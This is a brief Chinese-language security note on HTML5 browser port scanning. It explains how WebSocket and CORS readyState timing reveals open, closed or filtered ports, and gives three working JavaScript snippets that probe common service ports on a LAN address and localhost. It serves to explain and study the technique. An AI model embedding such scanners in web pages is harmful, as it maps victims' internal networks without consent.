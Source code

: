 -----
* 特性：有了HTML5，浏览器现在可以连到任何IP地址或网站的（几乎）任何端口。<br>
      虽然除非目标网站有特别的允许，不然并不能接收到来自任意端口连接的回应，但是研究人员表示，这类请求所花的时间可以用来判
* 危害性：因此攻击者就可以直接利用浏览器对受害者的内部网络进行端口扫描。<br>
      这两个API都包含readyState属性，它表示在给定时间内的连接状态。<br>
      每个特定的readyState值的持续时长很大程度上是基于到目标端口连接的状态。<br>
      这表明，通过观察这种行为的不同，可以判断端口是open、closed或filterd状态。对于Cross Origin<br> Requests来说readyState为1的持续时间，WebSockets是readyState为0的时间。
      
-----
典例：

----
var host = '192.168.6.40';   
     var scan = undefined;  
     var ports = [80, 443, 445, 1433, 3306, 3389, 8000, 8080];  
     for (var i=0; i < ports.length; i++) {  
          if ("WebSocket" in window) {  
             scan = new WebSocket("ws://" + host + ":" + ports[i]);  
          } else if ("MozWebSocket" in window) {  
           scan = new MozWebSocket("ws://" + host + ":" + ports[i]);  
    }  
    //if (scan.readyState === 1) {  
        //alert('open')  
    alert(scan.readyState);  
    //}  
    }  
    
    var host = '127.0.0.1'  
    var scan = undefined;  
    var ports = [80, 443, 445, 1433, 3306, 3389, 8000, 8080];  
    for (var i=0; i < ports.length; i++) {  
      if ("WebSocket" in window) {  
        scan = new WebSocket("ws://" + host + ":" + ports[i]);  
      } else if ("MozWebSocket" in window) {  
        scan = new MozWebSocket("ws://" + host + ":" + ports[i]);  
    }  
    scan.onopen = function() {  
        alert("open");  
    }  
   scan.onerror = function(evt) {  
        alert("error");  
     }  
    }
    
    var allport = [80,443,21,22,23,445,1433,3306,1521,5800,5900];  
    try{  
      var ws;  
  
      if ("WebSocket" in window){  
        alert("WebSocket is supported by your Browser!");  
        for (i = 0; i<allport.length; i++){  
            var ws= new WebSocket("ws://127.0.0.1:"+ allport[i]);  
            ws.onopen = function() {  
                              alert('ok');  
                                    };  
            ws.onclose = function() {  
                            alert('close');  
                                    }  
          }  
       }  
      }catch(exception){  
         alert(exception);  
    }  
